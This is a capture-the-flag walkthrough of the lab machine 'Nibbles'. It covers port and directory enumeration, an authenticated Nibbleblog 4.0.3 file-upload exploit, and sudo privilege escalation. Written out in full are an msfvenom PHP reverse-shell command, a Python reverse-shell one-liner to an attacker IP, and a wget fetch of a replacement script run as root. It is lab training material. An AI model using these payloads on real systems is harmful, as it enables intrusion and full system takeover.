





# Enumeration

## Run Nmap Scan

```bash
nmap 10.10.10.75 -p- -sC -sV --min-rate 6000 -Pn -n -oA tcpDetailed

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-12 11:37 BST
Nmap scan report for 10.10.10.75
Host is up (0.45s latency).
Not shown: 65163 filtered tcp ports (no-response), 370 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.17 seconds
"
```

## View Website


## **Directory Bruteforcing (Run Gobuster)**

```bash
gobuster dir -u http://10.10.10.75/ -w /usr/share/wordlists/dirb/common.txt 

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/09/12 11:42:04 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/.htaccess            (Status: 403) [Size: 295]
/index.html           (Status: 200) [Size: 93] 
/server-status        (Status: 403) [Size: 299]
                                               
===============================================================
2023/09/12 11:43:18 Finished
===============================================================
"
```

Hmm.. nothing interesting…

## Open developer tools to inspect html code



We found a new route called `/nibbleblog` 



## Rerun Directory Bruteforcing

```bash
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.75/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/09/12 12:00:24 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2987]
/sitemap.php          (Status: 200) [Size: 402] 
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/] 
/feed.php             (Status: 200) [Size: 302]                                             
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]  
/admin.php            (Status: 200) [Size: 1401]                                            
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/install.php          (Status: 200) [Size: 78]                                              
/update.php           (Status: 200) [Size: 1622]                                            
/README               (Status: 200) [Size: 4628]                                            
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
Progress: 13438 / 175330 (7.66%)                                                             ^C
[!] Keyboard interrupt detected, terminating.
                                                                                              
===============================================================
2023/09/12 12:03:54 Finished
===============================================================
"
```

## Nibbleblog Enumeration

### Going to `/README`



It's using Nibbleblog v4.0.3





# Exploitation

## Looking for Nibble Exploits

```bash
searchsploit nibbleblog

"
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections        | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Met | php/remote/38489.rb
---------------------------------------------- ---------------------------------
Shellcodes: No Results
"
```

There's a Arbitrary File Upload exploit for v4.0.3 which we can upload our reverse shell code then exploit the system. But let's look for github code rather using metasploit

[https://github.com/dix0nym/CVE-2015-6967](https://github.com/dix0nym/CVE-2015-6967)

## Creating Shellcode

```bash
msfvenom -p php/reverse_php -f raw LHOST=10.10.14.5 LPORT=4444 -o reverse.php
```

## Listen to Reverse Shell and Exploit

```bash
nc -lvnp 4444

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.75.
Ncat: Connection from 10.10.10.75:43092.
whoami
nibbler
"
```

```bash
python3 exploit.py  --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload reverse.php

"
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
"
```

# Privilege Escalation

## Check User Privilege

We can see `/home/nibbler/personal/stuff/monitor.sh` have root privilege and the file is not created yet.

```bash
sudo -l

"
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
"
```

## Create Reverse Shell Code in Python

Why python? because bash or sh reverse shell is not supported

```python
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<Attacker IP>",4443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

## Listen to Reverse Shell and Exploit

```bash
nc -lvnp 4443

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4443
Ncat: Listening on 0.0.0.0:4443
Ncat: Connection from 10.10.10.75.
Ncat: Connection from 10.10.10.75:58996.
# whoami
whoami
root
"
```

```bash
cd /home/nibbler
unzip personal.zip
cd /personal/stuff
rm -rf monitor.sh
wget http://<Attacker IP>:8000/monitor.sh
chmod +x monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```